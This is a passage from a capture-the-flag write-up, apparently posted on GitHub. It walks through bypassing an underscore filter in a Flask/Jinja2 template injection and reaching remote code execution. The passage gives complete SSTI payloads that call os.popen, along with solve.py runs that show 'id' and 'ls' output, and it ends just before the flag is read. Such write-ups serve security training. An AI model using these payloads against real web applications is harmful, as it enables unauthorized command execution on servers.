 There are some solutions to bypass this filtering, we use following steps:

1- convert to attr,getitem solution
```
{{request.application|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')()}}
```

2- Now instead of using `_` send another param in url and send value `_` as `request.args` parameter like below:
```
?error=<filename>&c=_
```
and access this value in template using `request.args.c` and create for example `__class__` using this approach, by joining 2 of `request.args.c` plus string 'class' plus 2 of `request.args.c` lie: `(request.args.c*2,'class',request.args.c*2)`

So our finale payload will be like:
```
{{request.application|attr((request.args.c*2,'globals',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'builtins',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'import',request.args.c*2)|join)('os')|attr('popen')('id')|attr('read')()}}
```

Sending it to server:
```bash
$ python solve.py "{{request.application|attr((request.args.c*2,'globals',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'builtins',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'import',request.args.c*2)|join)('os')|attr('popen')('id')|attr('read')()}}"
[+] File created with name: testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-ysgpeWQqnYg.html
[+] Printing content of file
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```
And we have RCE, the final step is to read the flag. But first we should find it's name at `/app` location.
Let execute and `ls` command:

```bash
$ python solve.py "{{request.application|attr((request.args.c*2,'globals',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'builtins',request.args.c*2)|join)|attr((request.args.c*2,'getitem',request.args.c*2)|join)((request.args.c*2,'import',request.args.c*2)|join)('os')|attr('popen')('ls')|attr('read')()}}"
[+] File created with name: testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-MP6ZKx_2F1U.html
[+] Printing content of file
<!doctype html>

  <h3>
    error: testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-MP6ZKx_2F1U
  </h3>
  ..\templates\errors\testaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapp.py
flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
static
templates

```
as you can see `flag` is located in file `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`. lets read it:
```bash
```